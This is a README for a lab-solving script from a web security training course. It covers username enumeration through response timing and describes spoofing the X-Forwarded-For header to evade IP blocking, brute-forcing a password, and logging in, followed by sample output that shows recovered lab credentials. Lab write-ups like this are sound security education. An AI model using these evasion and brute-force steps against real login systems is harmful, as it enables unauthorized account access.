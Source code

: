 ## Hack Steps

1. Read usernames and passwords lists
2. Change X-Forwarded-For header to a random IP in every request to bypass blocking
3. Try to find a valid username via response timing
4. Brute force the password of that valid username
5. Login with the valid credentials

## Run Script

1. Change the URL of the lab
2. Make sure the passwords and usernames files exist in the root directory (Authentication directory) or change its path accordingly
3. Start script

```
~$ python main.py
```

## Expected Output

```
⦗1⦘ Reading usernames list.. OK
⦗2⦘ Reading password list.. OK
⦗3⦘ Trying to find a valid username..
❯❯ Elapsed: 35 seconds || Trying (77/101): apps
🗹 Valid username: apps
⦗4⦘ Brute forcing password..
❯❯ Elapsed: 52 seconds || Trying (17/101): letmein
🗹 Valid username: apps
🗹 Valid password: letmein
⦗5⦘ Logging in.. OK
🗹 Finished in: 53 seconds
🗹 The lab should be marked now as solved
```

## Want to go faster?

Check the [Rust script](https://github.com/elqal3awii/WebSecurity-Academy-with-Rust/tree/main/Authentication/Username%20enumeration%20via%20response%20timing) for this lab in both single-threaded and multi-threaded approaches.
